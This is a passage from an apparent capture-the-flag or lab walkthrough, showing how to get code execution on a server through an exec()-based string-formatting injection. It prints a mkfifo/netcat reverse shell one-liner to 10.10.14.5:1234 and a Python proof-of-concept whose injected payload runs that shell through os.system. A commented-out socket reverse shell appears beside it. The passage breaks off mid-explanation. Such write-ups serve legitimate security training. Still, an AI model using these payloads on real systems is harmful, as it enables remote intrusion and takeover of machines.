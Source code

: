 ```bash
$ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 1234 >/tmp/f
```

Now, let's build out a PoC to get system execution in the context of the server. I set up scaffolding just like the server and created the following script.


```python
import os
import urllib.parse

info = "output = 'Document: {}'" # Keep the output for later debug

########
# WORKS
########

#  path = """', print(3), '"""
#  path = """', print(3), print(4), '"""
#  path = """', print(3)
#  print(4), '"""
#  path = """', open('a', 'w'), '"""
#  path = """', os.system('echo "hi"'), '"""
path = """', os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.5 1234 >/tmp/f'), '"""
path = urllib.parse.unquote(path)

##############
# DOESN'T WORK
##############

#  path = """', x = 4, print(x), '"""

# Can't import anything! This fails!!
#  path = """', import socket, '"""


# Theoretically complete
#  path = """', s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
#  s.connect(('10.10.14.5', 1234))
#  os.dup2(s.fileno(),0)
#  os.dup2(s.fileno(),1)
#  os.dup2(s.fileno(),2)
#  p=subprocess.call(['/bin/bash', '-i']), '"""

cmd = info.format(path)
print(cmd)
exec(cmd) # This is how you do string formatting, right?
```

When running this script with a `nc` listener in another `tmux` pane, a reverse shell is created. Now, let's figure out how to get the string we've assigned to path into the `path` variable in the script. Tracing the execution back, we have:
